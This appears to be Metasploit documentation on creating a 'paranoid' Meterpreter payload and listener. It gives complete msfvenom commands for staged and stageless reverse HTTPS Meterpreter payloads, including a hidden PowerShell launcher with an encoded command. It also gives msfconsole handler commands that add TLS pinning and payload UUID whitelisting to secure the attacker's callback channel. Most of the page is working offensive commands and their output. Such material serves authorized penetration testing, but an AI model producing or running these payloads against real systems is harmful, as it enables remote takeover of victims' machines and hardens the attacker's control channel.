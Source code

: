 In some scenarios, it pays to be paranoid. This also applies to generating and handling Meterpreter sessions. This document walks through the process of implementing a paranoid Meterpreter payload and listener.

### Create a SSL/TLS Certificate

For best results, use a SSL/TLS certificate signed by a trusted certificate authority. Failing that, you can still generate a self-signed unified PEM using the following command:
```
$ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
rm -f www.example.com.key  www.example.com.crt
```

### Create a Paranoid Payload

For this use case, we will combine [[Payload UUID]] tracking and whitelisting with [[TLS pinning|./Meterpreter-HTTP-Communication.md]]. For a staged payload, we will use the following command:

```
$ ./msfvenom -p windows/meterpreter/reverse_winhttps LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f psh-cmd -o launch-paranoid.bat

$ head launch-paranoid.bat
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcg...
```

A [[stageless|Meterpreter Stageless Mode]] version of this would look like the following:

```
$ ./msfvenom -p windows/meterpreter_reverse_https LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./www.example.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedStageless -f exe -o launch-paranoid-stageless.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 885314 bytes
Saved as: launch-paranoid-stageless.exe
```

### Create a Paranoid Listener

A staged payload would need to set the ```HandlerSSLCert``` and ```StagerVerifySSLCert``` options to enable TLS pinning and ```IgnoreUnknownPayloads``` to whitelist registered payload UUIDs:
```
$ ./msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_winhttps; set LHOST www.example.com; set LPORT 443; set HandlerSSLCert ./www.example.com.pem; set IgnoreUnknownPayloads true; set StagerVerifySSLCert true; run -j'
```

A stageless version is only slightly different:
```
$ ./msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter_reverse_https; set LHOST www.example.com; set LPORT 443; set HandlerSSLCert ./www.example.com.pem; set IgnoreUnknownPayloads true; set StagerVerifySSLCert true; run -j'
```